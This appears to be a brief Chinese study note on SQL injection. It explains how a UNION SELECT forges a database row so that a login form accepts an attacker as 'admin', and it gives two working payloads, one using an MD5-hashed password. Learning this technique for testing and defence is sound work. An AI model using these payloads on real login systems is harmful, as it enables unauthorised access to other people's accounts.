 有时通过注入可以伪造查询结果，达到非法登录的效果
```sql
name=1' union select 1, 'admin', '1'#&pw=1
```
如上，我们伪造了一个名为`admin`，密码为`1`的查询结果，然后传递`url`查询`pw=1`，于是服务器认为我们拥有`admin`正确的密码，成功登录
需要注意的是，由于服务端可能将密码经过`md5`计算后存储，因此我们伪造的查询结果也应当经过`md5`
```sql
name=1' union select 1,'admin','c4ca4238a0b923820dcc509a6f75849b'#&pw=1
```
#Web #SQL注入 #查询结果伪造